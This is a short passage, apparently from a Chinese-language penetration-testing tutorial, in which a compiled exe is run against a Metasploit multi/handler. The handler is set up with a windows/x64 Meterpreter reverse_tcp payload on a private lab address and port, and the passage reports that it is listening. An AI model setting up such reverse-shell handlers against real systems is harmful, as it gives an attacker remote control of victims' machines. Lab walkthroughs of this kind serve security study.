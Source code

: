 ![image-20230514215443968](./imags/image-20230514215443968.png)

编译得到exe后在kali启动监听，然后运行程序。

```powershell
msfconsole 
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.0.107
lhost => 192.168.0.107
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.0.107:6666 
```

成功监听。

![image-20230514215758577](./imags/image-20230514215758577.png)
